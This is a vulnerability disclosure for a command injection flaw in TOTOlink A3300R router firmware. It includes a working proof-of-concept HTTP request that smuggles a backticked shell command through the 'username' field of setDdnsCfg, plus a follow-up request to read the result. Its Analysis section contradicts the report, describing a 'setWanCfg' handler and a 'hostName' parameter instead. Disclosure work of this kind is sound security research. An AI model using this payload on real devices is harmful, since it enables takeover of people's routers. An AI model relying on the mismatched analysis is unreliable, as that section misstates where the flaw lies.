 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setDdnsCfg` request,`username` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=12B107C61AD15CFD HTTP/1.1
Host: itotolink.net
Content-Length: 134
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/ddns.html?token=12B107C61AD15CFD
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: ext_pgvwcount=-0.1
Connection: close

{"enable":"1","provider":"3322.org","domain":"8.8.8.8","username":"admin`ls>/web/234.txt`","password":"admin","topicurl":"setDdnsCfg"}
```

injection the command "ls>/web/234.txt"

![image-20240109130442174](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109130442174.png)

check the result.

```
GET /234.txt HTTP/1.1
Host: itotolink.net
If-Modified-Since: Mon, 24 Oct 2022 17:43:03 GMT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://itotolink.net/static/css/advance_menu.css
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: ext_pgvwcount=-0.1
Connection: close
```

![image-20240109130507028](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109130507028.png)

## Analysis

sub_40E920 will handle the `setWanCfg` request. sub_40E920 get `hostName` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240109130751395](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109130751395.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/2/img/image-20240109131330610.png)
